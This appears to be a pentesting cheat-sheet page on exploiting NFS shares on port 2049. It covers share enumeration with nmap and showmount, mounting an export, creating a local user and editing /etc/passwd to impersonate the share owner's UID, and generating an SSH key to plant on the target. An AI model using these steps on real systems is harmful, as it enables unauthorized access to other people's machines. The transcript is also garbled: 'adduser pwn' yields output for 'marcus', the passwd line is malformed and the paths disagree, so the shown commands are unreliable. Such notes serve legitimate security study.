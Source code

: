 ## Port 2049(NFS) 
Enumerate shares
```
nmap -v -p 2049 --script=nfs* $ip
showmount -e $ip
showmount -a $ip
```

Mount shares in Kali Machine
```
mount -t nfs -o vers=2 target_ip:/home local_folder/ -o nolock
```

After mounting the filesystem if we don’t have read/write permission, we need to edit /etc/passwd and change UUID:
```
root@kali:/home/bytef//nfs# adduser pwn
Adding user `pwn' ...
Adding new group `marcus' (1001) ...
Adding new user `marcus' (1001) with group `marcus' ...
Creating home directory `/home/pwn' ...
Copying files from `/etc/skel' ...
New password: 
Retype new password: 
passwd: password updated successfully
Changing the user information for pwn
Enter the new value, or press ENTER for the default 
        Full Name []: 
        Room Number []: 
        Work Phone []: 
        Home Phone []: 
        Other []: 
Is the information correct? [Y/n] y
root@kali:/home/bytef/nfs# nano /etc/passwd
marcus@1016:1016:,,,:/home/pwn:/bin/bash
root@kali:/home/bytef/nfs# su pwn
```

Now we can write files to the target folder of the network filesystem. For example:
```
pwn@kali:/home/bytef/nfs/pwn$ ssh-keygen                                                                                                                                                
Generating public/private rsa key pair.                                                                                                                                                                      
Enter file in which to save the key (/home/pwn/.ssh/id_rsa): /home/bytef/pwn/.ssh                                                                                                   
Enter passphrase (empty for no passphrase):                                                                                                                                                                  
Enter same passphrase again:                                                                                                                                                                                 
Your identification has been saved in /home/bytef/nfs/pwn/.ssh                                                                                                                             
Your public key has been saved in /home/bytef/nfs/pwn/.ssh.pub                                                                                                                             
The key fingerprint is:                                                                                                                                                                                      
SHA256:/PH2zrnWxuuT18DFMZvN7WGS7ltUKdz4N+iYjTEZYiQ4 pwn@kali                                                                                                                                               
```